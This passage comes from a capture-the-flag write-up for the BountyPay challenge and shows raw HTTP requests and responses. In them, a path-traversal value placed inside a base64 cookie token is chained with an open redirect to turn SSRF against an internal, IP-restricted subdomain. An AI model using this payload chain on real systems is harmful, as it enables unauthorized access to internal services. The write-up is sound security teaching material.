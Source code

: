 Response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 14:31:10 GMT
Content-Type: application/json
Connection: close
Content-Length: 205

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK#\/statements?month=11&year=2019","data":"{\"account_id\":\"F8gHiqSdpK\",\"owner\":\"Mr Brian Oliver\",\"company\":\"BountyPay Demo \"}"}
```

Bingo, I had control over the request that was made to the API server side. Again, I tested the get parameters for SQLi, hoping I could maybe bypass some special characters filtering by talking directly to the API, but still no luck. I had to find how to leverage that SSRF vulnerability.

I browsed the API home page at [https://api.bountypay.h1ctf.com/](https://api.bountypay.h1ctf.com/) and unfortunately there was no information about any documentation. However I noticed that one link on that page was using a redirect:

{F853783}

During the initial recon phase I discovered multiple subdomains. All of them were accessible, except one:  [software.bountypay.h1ctf.com](http://software.bountypay.h1ctf.com):

{F853790}

This server had an IP restriction in place, probably to restrict the access to internal traffic only, maybe I could get something from it using the SSRF I just found. Again, using Burp Repeater and Hackvector I tried to use the redirect to reach that server.

Request:

```
GET /statements?month=11&year=2019 HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Cookie: token=<@base64_1>{"account_id":"../../../redirect?url=https://software.bountypay.h1ctf.com/#","hash":"de235bffd23df6995ad4e0930baac1a2"}<@/base64_1>
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 01 Jun 2020 16:51:59 GMT
Content-Type: application/json
Connection: close
Content-Length: 1609

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/#\/statements?month=11&year=2019",
```